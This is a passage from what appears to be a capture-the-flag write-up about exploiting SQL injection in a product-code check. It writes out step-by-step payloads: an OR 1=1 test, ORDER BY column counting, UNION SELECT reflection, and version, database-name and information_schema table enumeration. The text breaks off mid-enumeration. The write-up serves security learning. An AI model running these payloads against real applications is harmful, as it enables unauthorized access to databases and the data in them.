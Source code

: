 <img src="https://i.imgur.com/XIsNsH7.png"/>

So this could mean that maybe it's verifying the product code from the database, we can try sqli here with `' OR 1=1 -- ` and see if it is vulnerable

<img src="https://i.imgur.com/N5O2rZP.png"/>

<img src="https://i.imgur.com/Mwxws7m.png"/>

This returns a product code so this definately is vulnerable to sqli, we can now try to enumerate the number of columns with `ORDER BY` 

```sql
{"uwu'ORDER BY 2 -- ":"12"}
```
This gives the error `Not Found` which means we haven't got the correct number of columns 

<imgs src="https://i.imgur.com/wcmthmz.png"/>

On increasing it to 3 we'll get a blank response meaning that there are 3 columns in the current table

```sql
{"uwu'ORDER BY 3 -- ":"12"}
```

<img src="https://i.imgur.com/UxRsPU6.png"/>

To see which column gets refleced on the page 

```sql
{"'union select 'U','W','U' -- ":"12"}
```

<img src="https://i.imgur.com/XBCFdou.png"/>


We can now print the database version with `@@version` or `versionn()` to see what's being used  in the second column
```sql
{"'union select null,@@version,null -- ":"12"}
```


<img src="https://i.imgur.com/7gGQCBL.png"/>

I tried reading the files through `load_file` function but the database user didn't had the FILE privilege, we can enumerate the database name with `database()` which returns the name as `checkout`

```sql
{"'union select null,database(),null -- ":"12"}
```

<img src="https://i.imgur.com/nOuiNj2.png"/>

To enumerate the table and column name

```sql
{"'union select null,table_name,null from information_schema.tables where table_schema=database() -- ":"12"}
```
